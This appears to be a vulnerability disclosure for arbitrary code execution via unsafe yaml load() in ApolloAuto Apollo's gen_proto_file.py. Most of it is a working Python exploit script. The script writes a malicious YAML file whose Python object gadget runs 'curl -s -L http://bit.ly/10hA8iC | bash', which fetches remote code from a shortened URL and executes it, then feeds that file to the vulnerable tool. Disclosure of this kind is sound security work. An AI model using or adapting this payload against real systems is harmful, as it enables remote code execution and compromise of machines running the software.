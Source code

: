 # Description
**Arbitrary Code Excecution** in gen_proto_file.py in ApolloAuto/Apollo.
An open autonomous driving platform.
# Technical Description
This package was vulnerable to Arbitrary code execution due to a use of a known vulnerable function **load()** in **yaml**. fix is to be done **gen_proto_file.py**
# Exploit code
**Python File**
```python
import os
exploit = '''protocol_conf: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('curl -s -L http://bit.ly/10hA8iC | bash')"
'''
os.system('git clone https://github.com/ApolloAuto/apollo.git')
os.chdir('apollo/modules/tools/gen_vehicle_protocol/')
os.system('rm exploit.yml')
open('exploit.yml','w+').write(exploit)
os.system('python3 gen_proto_file.py exploit.yml')
```
# POC
* Run the exploit code 

![](https://cdn.discordapp.com/attachments/749019614352244777/787012612868669440/apollo.gif)
